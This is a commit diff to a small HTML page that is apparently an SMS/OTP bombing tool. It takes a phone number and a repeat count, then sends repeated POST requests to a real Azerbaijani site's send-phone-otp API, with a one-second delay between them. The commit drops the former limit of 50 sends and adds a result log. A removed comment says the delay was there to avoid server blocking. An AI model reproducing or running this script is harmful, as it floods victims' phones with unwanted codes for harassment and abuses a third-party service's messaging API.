

Before and after one commit to Welz798/Welzmods, a plain HTML site: page index.html in a window 1280 px wide. Both pictures are taken after a click on the button "Göndər". Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,100 +3,104 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>OTP Göndərici</title>
+    <title>OTP Göndərmə Paneli</title>
     <style>
         body {
             font-family: Arial, sans-serif;
             background-color: #f4f4f9;
+            margin: 0;
+            padding: 20px;
             display: flex;
             justify-content: center;
             align-items: center;
             height: 100vh;
-            margin: 0;
         }
-        .card {
-            background: white;
+        .container {
+            background: #fff;
             padding: 20px;
             border-radius: 8px;
             box-shadow: 0 4px 8px rgba(0,0,0,0.1);
-            width: 300px;
+            width: 350px;
         }
         h2 {
-            font-size: 18px;
-            margin-bottom: 15px;
+            text-align: center;
             color: #333;
         }
+        .form-group {
+            margin-bottom: 15px;
+        }
         label {
-            font-size: 14px;
-            color: #666;
             display: block;
             margin-bottom: 5px;
+            color: #666;
         }
         input {
             width: 100%;
             padding: 8px;
-            margin-bottom: 12px;
+            box-sizing: border-box;
             border: 1px solid #ccc;
             border-radius: 4px;
-            box-sizing: border-box;
         }
         button {
             width: 100%;
             padding: 10px;
             background-color: #007bff;
+            border: none;
             color: white;
-            border: none;
+            font-size: 16px;
             border-radius: 4px;
             cursor: pointer;
-            font-size: 14px;
         }
         button:hover {
             background-color: #0056b3;
         }
-        #status {
-            margin-top: 10px;
-            font-size: 13px;
-            text-align: center;
+        #log {
+            margin-top: 15px;
+            font-size: 14px;
+            max-height: 150px;
+            overflow-y: auto;
+            background: #eee;
+            padding: 10px;
+            border-radius: 4px;
         }
     </style>
 </head>
 <body>
 
-    <div class="card">
-        <h2>OTP Göndərmə Paneli</h2>
-        <label for="phone">Telefon Nömrəsi:</label>
-        <input type="text" id="phone" placeholder="Məs: 501234567">
+<div class="container">
+    <h2>OTP Göndər</h2>
+    <div class="form-group">
+        <label for="phone">Telefon nömrəsi:</label>
+        <input type="text" id="phone" placeholder="Məs: 994501234567">
+    </div>
+    <div class="form-group">
+        <label for="count">Say (Neçə dəfə):</label>
+        <input type="number" id="count" value="1" min="1">
+    </div>
+    <button onclick="startSending()">Göndər</button>
 
-        <label for="count">Say (Neçə dəfə):</label>
-        <input type="number" id="count" value="1" min="1" max="50">
-
-        <button onclick="startSending()">Göndər</button>
-        <div id="status"></div>
+    <div id="log"></div>
 </div>
 
 <script>
     async function startSending() {
         const phone = document.getElementById('phone').value.trim();
         const count = parseInt(document.getElementById('count').value);
-            const statusDiv = document.getElementById('status');
+        const logDiv = document.getElementById('log');
+
+        logDiv.innerHTML = '';
 
         if (!phone) {
-                statusDiv.style.color = 'red';
-                statusDiv.innerText = 'Zəhmət olmasa nömrə daxil edin!';
+            alert('Zəhmət olmasa nömrə daxil edin!');
             return;
         }
 
-            statusDiv.style.color = 'blue';
-            statusDiv.innerText = 'Göndərilir...';
+        const url = 'https://www.masin.az/api/auth/send-phone-otp';
 
-            let successCount = 0;
-
-            for (let i = 0; i < count; i++) {
+        for (let i = 1; i <= count; i++) {
             try {
-                    // Qeyd: Brauzerlər arası CORS məhdudiyyətinə görə bu sorğu
-                    // birbaşa client-side (frontend) işləməyə bilər və server
-                    // tərəfdən (məsələn, Python ilə) icra olunması tələb oluna bilər.
-                    let response = await fetch('https://www.masin.az/api/auth/send-phone-otp', {
+                // API-nin tələb etdiyi məlumat formatına uyğun olaraq body hissəsini dəyişə bilərsiniz
+                const response = await fetch(url, {
                     method: 'POST',
                     headers: {
                         'Content-Type': 'application/json',
@@ -106,18 +110,17 @@
                 });
 
                 if (response.ok) {
-                        successCount++;
+                    logDiv.innerHTML += `[${i}] Uğurlu: Kod göndərildi.<br>`;
+                } else {
+                    logDiv.innerHTML += `[${i}] Xəta: Status ${response.status}<br>`;
                 }
             } catch (error) {
-                    console.error('Xəta:', error);
+                logDiv.innerHTML += `[${i}] Bağlantı xətası: ${error.message}<br>`;
             }
 
-                // Sorğular arası kiçik gözləmə (server tərəfindən bloklanmamaq üçün)
+            // Sorğular arası qısa gözləmə əlavə etmək üçün (istəyə bağlı)
             await new Promise(resolve => setTimeout(resolve, 1000));
         }
-
-            statusDiv.style.color = 'green';
-            statusDiv.innerText = `Tamamlandı! Uğurlu: ${successCount}/${count}`;
     }
 </script>
 
```
Lines whose indentation alone changed are shown as unchanged.
